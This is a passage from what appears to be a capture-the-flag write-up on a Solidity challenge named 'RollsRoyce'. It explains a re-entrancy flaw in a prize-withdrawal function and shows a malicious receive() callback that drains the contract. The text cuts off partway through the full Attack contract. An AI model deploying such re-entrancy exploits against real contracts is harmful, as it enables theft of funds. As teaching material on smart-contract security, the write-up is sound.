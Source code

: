 So where is the vulnerability and how can it be exploited? 

When a contract sends another address some ether like seen in the `sendValue(address payable recipient, uint256 amount)` function, the contract is actually making a call to the victim's [receive()](https://docs.soliditylang.org/en/latest/contracts.html#receive-ether-function) function. In essence, we can implement the `receive()` function in a way such that it makes a recursive call back to a victim contract's exploitable function.

In this case, the exploitable function is the `withdrawFirstWinPrizeMoneyBonus()`. Lets take a look at the function calls being made when a player calls the `withdrawFirstWinPrizeMoneyBonus()` function (or at least what's important to take note of):
- `withdrawFirstWinPrizeMoneyBonus()` --> 
    - `require(!claimedPrizeMoney[msg.sender]) -->
    - `playerPool[msg.sender] += 1 ether;` --> 
    - `withdrawPrizeMoney(msg.sender);` --> 
        - `sendValue(payable(_to), prizeMoney);` --> 
    - `claimedPrizeMoney[msg.sender] = true;`


If we can somehow re-make the call to the `withdrawFirstWinPrizeMoneyBonus()` function before `claimedPrizeMoney[msg.sender]` gets set to `true`, we can essentially keep recursively calling that function until the contract has no funds, which is the aim of this challenge ultimately. In other words, we want to make a function call back to the `withdrawFirstWinPrizeMoneyBonus()` function right after receiving ether from the victim contract, something like below:
- `withdrawFirstWinPrizeMoneyBonus()` --> 
    - `require(!claimedPrizeMoney[msg.sender])` -->
    - `playerPool[msg.sender] += 1 ether;` --> 
    - `withdrawPrizeMoney(msg.sender);` --> 
        - `sendValue(payable(_to), prizeMoney);` --> 
            - `withdrawFirstWinPrizeMoneyBonus()` --> 
                - `require(!claimedPrizeMoney[msg.sender])` -->
                - `playerPool[msg.sender] += 1 ether;` --> 
                - `withdrawPrizeMoney(msg.sender);` --> 
                    - `sendValue(payable(_to), prizeMoney);` --> 
                        - .......
    - `claimedPrizeMoney[msg.sender] = true;`

We can achieve this by simply extending our `Attack` contract and implementing our own malicious `receive()` function as shown below:
```solidity
receive() external payable {
    if (victim.viewWins(address(this)) >= 3 && address(victim).balance > 0) {
        victim.withdrawFirstWinPrizeMoneyBonus();
    }
}
```

Note that we also want to check that we only trigger the vulnerable re-entrancy function if we have already won the game, and we only wish to keep drawing the funds if there are even funds to draw.

## Wrapping it all up like a Sushi Roll
Alright, now that we understand what we need to do, let's implement the full exploit contract!

```solidity
contract Attack {
    RollsRoyce victim;
    address owner;

    constructor(address payable _addr) public payable {
        owner = msg.sender;
        victim = RollsRoyce(_addr);
    }

    function flipCoin() private view returns (RollsRoyce.CoinFlipOption) {
        return
            RollsRoyce.CoinFlipOption(
                uint(
```